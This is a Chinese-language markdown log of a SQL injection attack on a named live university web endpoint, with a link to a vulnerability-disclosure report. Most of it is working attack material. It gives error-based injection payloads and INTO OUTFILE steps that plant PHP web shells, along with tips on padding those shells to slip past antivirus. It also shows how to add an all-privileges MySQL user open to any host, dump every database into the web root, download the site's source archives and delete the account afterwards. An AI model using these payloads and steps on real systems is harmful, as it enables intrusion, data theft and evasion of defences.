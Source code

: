 ```yaml
---
title: SQL Injection dce Success
description: SQL Injection dce Success
last_update:
  date: "2025-09-02T08:00:00+08:00"
---
```


## 前言

1. 目標: https://w2.dce.tku.edu.tw/plugins/validationEngine/check_member_id.php?fieldValue=%27

## 測試過程

1. `?fieldValue=%27`

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1
[null,false]
```

2. `fieldValue=%27%20OR%20%271%27%20=%20%271`

```
[null,false]
```

3. `fieldValue=%27%20AND%20updatexml(null,concat(0x7e,version(),0x7e),null)%20AND%20%271%27%20=%20%271`

```
XPATH syntax error: '~10.1.31-MariaDB~'
[null,false]
```

好快，三次就成功用 Error-Based SQLi 提取到資料

接下來請參考 [ZD-2025-01107](https://zeroday.hitcon.org/vulnerability/ZD-2025-01107)

mysqldump，root 使用者只能透過 localhost 連線，python 那個可以再試試看

## 學到的東西

1. 遞迴地列出目錄底下的副檔名分佈: `powershell "Get-ChildItem D:\xampp\htdocs -Recurse | Group-Object Extension | Sort Count -Desc | Select Name,Count"`

```
Name                  Count
----                  -----
.php                  26979
                      13624
.jpg                  12053
.png                   6500
```

2. 遞迴地排除指定副檔名的檔案，並打包成 zip 寫入本機目錄: `powershell "Get-ChildItem D:\xampp\htdocs -Recurse | Where {$_.Extension -notin '.jpg','.png','.gif','.svg','.pdf','.xls','.doc','.ttf','.js','.css','.less','.scss'} | Compress-Archive -Dest D:\xampp\htdocs\core.zip"`

3. 將指定目錄底下的 .php 檔案打包成 zip 寫入本機目錄: `powershell Compress-Archive -Path "D:\xampp\htdocs\*.php" -DestinationPath "D:\xampp\htdocs\php_files.zip"`

4. 使用 curl 下載檔案: `curl --output php_files.zip https://w2.dce.tku.edu.tw/php_files.zip -v`

5. 尋找環境變數底下的執行檔: `where mysql`

6. Windows + XAMPP 的架構，可在 `D:\xampp\mysql\bin` 找到 `mysql.exe` 跟 `mysqldump.exe`

7. `SELECT user()` => `root@localhost`

8. `SELECT @@basedir` => `D:\xampp\mysql`

9. `SELECT @@datadir` => `D:\xampp\mysql\data`

10. UNION 搭配上傳檔案:

`sql
UNION SELECT '<?php system($_GET["cmd"]);?>' INTO OUTFILE 'D:/xampp/htdocs/shell.php'
UNION SELECT '<?php system($_GET[cmd]);?>' INTO OUTFILE 'D:/xampp/htdocs/shell.php'
`

UNION 前後的欄位數量還是得匹配，才會成功執行

11. 一般的防毒軟體都可以偵測到上面兩種 php 檔案（會被歸類到惡意程式），所以可以加一些垃圾程式碼跟註解來混淆

```php
<?php $host = "localhost"; $username = "root"; system($_GET["cmd"]); ?>
```

12. 也可以用 `<?php echo exec($_GET[cmd]);?>`

13. 直接用 CMD 新增 MySQL 使用者: `D:\xampp\mysql\bin\mysql.exe -u root -p"password" -e "CREATE USER 'tempdump'@'%' IDENTIFIED BY 'temp_password'; GRANT ALL ON *.* TO 'tempdump'@'%';"`

- 要記得 -p 後面不能有空格，這樣才不會跳出輸入框
- `-e "SQL Syntax Here; Other SQL Syntax Here;"`
- `'tempdump'@'%'` => `'username'@'hostname'` => 允許該使用者透過任何主機進行連線
- `GRANT ALL ON *.*` => `database.table` => 允許所有 database 底下的所有 table

14. 使用 mysqldump 匯出所有 databases 的資料 as .sql 檔案: `D:\xampp\mysql\bin\mysqldump.exe -u tempdump -p"temp_password" --all-databases > D:\xampp\htdocs\alldb.sql`

15. 刪除臨時帳號: `D:\xampp\mysql\bin\mysql.exe -u root -p"password" -e "DROP USER 'tempdump'@'%'; FLUSH PRIVILEGES;"`

16. CMD 的 ls:

- `dir`
- `dir D:\xampp`

17. CMD 的 rm:

- `del file.php`
- `del D:\xampp\htdocs\file.php`

18. CMD 的 cat:

- `type file.php`
- `type D:\xampp\htdocs\file.php`

19. powershell 感覺必學，功能太強大了
